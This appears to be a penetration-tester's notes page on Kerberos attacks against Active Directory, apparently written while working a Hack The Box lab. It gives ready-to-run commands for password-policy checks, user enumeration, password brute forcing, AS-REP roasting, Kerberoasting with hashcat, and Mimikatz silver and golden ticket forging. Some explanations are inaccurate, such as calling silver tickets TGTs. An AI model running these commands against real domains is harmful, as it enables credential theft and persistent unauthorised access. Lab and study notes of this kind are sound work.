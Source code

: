 ```yaml
---
layout: default
title: Kerberos
parent: ENUMERATION
has_children: false
has_toc: false
---
```


{% include toc.html %}

*Clock skew issues: if nmap returns a large clock skew (more than five minutes), synchronise the system clock with the remote host. For details, see [here](../cookbooks/time-date.md).*

## References

https://www.youtube.com/channel/UCpoyhjwNIWZmsiKNKpsMAQQ

## Password policy
First, try and get the password policy so as to prevent locking legitimate user accounts. If there is a strict password policy in place, think twice about trying to brute force accounts. It's possible credentials are needed to dump the password policy, so it may be necessary to discover an account set to "Do not require Kerberos pre-authentication".

```csharp
// Test for password policy.
crackmapexec smb 10.10.10.175 --pass-pol
crackmapexec smb 10.10.10.175 -u 'user' -p 'pass' --pass-pol
crackmapexec smb 10.10.10.175 -d egotistical-bank.local -u 'fsmith' -p 'Thestrokes23' --pass-pol
```

## Enumerating users
Check the password policy to ensure you won't lock users out. Generate a list of user names to test with. If you can discover the username format the domain is using that will reduce the number of permutations required. Service account names are of particular interest here. if possible, create a list of potential service account names applicable to your application and try them along with usernames.

```csharp
// Very g.uick.
kerbrute userenum --safe --domain domain.local --dc 10.x.x.x ./list-of-users
```

## "Do not require Kerberos pre-authentication"
If users have "Do not require Kerberos pre-authentication" enabled, it's possible to dump the user's hash and try and recover the password using `Hashcat`.

```csharp
// Impacket
GetNPUsers.py egotistical-bank.local/ -dc-ip 10.10.10.175 -no-pass -usersfile ./known-users -format hashcat -request
```

## Brute forcing a user's password over the network
Be sensible about this and only use compact wordlists over the network. Sending `rockyou.txt` over the network for multiple users is going to end in issues, particularly if the DC is logging Kerberos authentication attempts.

*If clock skew is an issue, not using the verbose flag will potentially miss valid passwords as Kerberos will return a KDC_Error if he password is valid which Kerbrute will ignore. By including the -v flag, the invalid passwords will show as such, and valid passwords will show with an error. A better solution is to synchronise your system clock with the DC. To fix clock skew issues, see [here](../cookbooks/time-date.md).*

```csharp
// Run this in verbose mode as errors (like clock skew errors) are not displayed otherwise.
kerbrute bruteuser -v --safe --domain egotistical-bank.local --dc 10.x.x.x wordlists/passwords username

// Write results to file.
kerbrute bruteuser -v --safe --domain egotistical-bank.local --dc 10.x.x.x --output username.out wordlists/passwords username
```

## Kerberoasting
Kerberoasting is an attack against Active Directory user accounts that have associated `Service Principle Names` (`SPNs` or `spins`). Services need an `SPN` assocaites with them in order to use Kerberos authentication. User accounts need manageable passwords, where as computer accounts have huge, random passwords that are changed every 30 days, or trying to crack them is a potentially impossible task. To get user accounts, you can use GetUserSPNs.py to query the request and return the account's hash. The hash can then (hopefully) be cracked using Hashcat. To carry out the attack, you need two things:

1. A user account and password (doesn't need to be privileged)
2. A service account with a registered SPN

Return all the accounts with `SPNs` along with the hashed requests:
```csharp
GetUserSPNs.py -dc-ip 10.x.x.x domain.local/user:pass -request
```

Alternatively, an LDAP search:
```pwershell
PS C:\> Import-Module ActiveDirectory
PS C:\> Get-ADUser -LDAPFilter "(ServicePrincipalName=*)"
```

Using Hashcat to crack the hash:
```csharp
hashcat -m 13100 file-containing-hash /usr/share/wordlists/rockyou.txt
```

## Kerberos Silver tickets
Silver tickets are forged Kerberos TGT tickets associated with a particular Kerberos service. For this attack, two items are required:

1. Domain SID. Removing the last part of a user's SID results in the domain SID.
2. NTLM hash of the target machine or NTLM of a service account.

Using Mimikatz to forge the TGT ticket, we can impersonate the local Adminstrator account:
```csharp
mimikatz # kerberos::golden /domain:domain.local /sid:S-1-5-21-...-... /user:Administrator /target:domain.name.of.target /service:CIFS /rc4:<NTLM hash of box> /ptt
```

The `ptt` parameter stands for `Pass the Ticket` and associates the ticket with the logon session.

## Kerberos Golden tickets
Not a privilege escalation attack, more a way of maintaining access due to the infrequency with which the krbtgt account password is changed. Golden tickets work with all services, unlike Silver tickets which are associated with a particular service. The attack allows you to create a long-lived ticket associated with an account user, such as Administrator. For this attack, three items are required:

1. Domain SID. Removing the last part of a user's SID results in the domain SID.
2. The NTLM hash (remember, the hash format is L) from the krbtgt account secret.
3. The domain name.

Using Mimikatz to create the Golden ticket:
```csharp
mimikatz # kerberos::golden /domain:domain.local /sid:S-1-5-21-...-... /user:Administrator /krbtgt:<krbtgt accounts's NTLM hash> /ptt
```
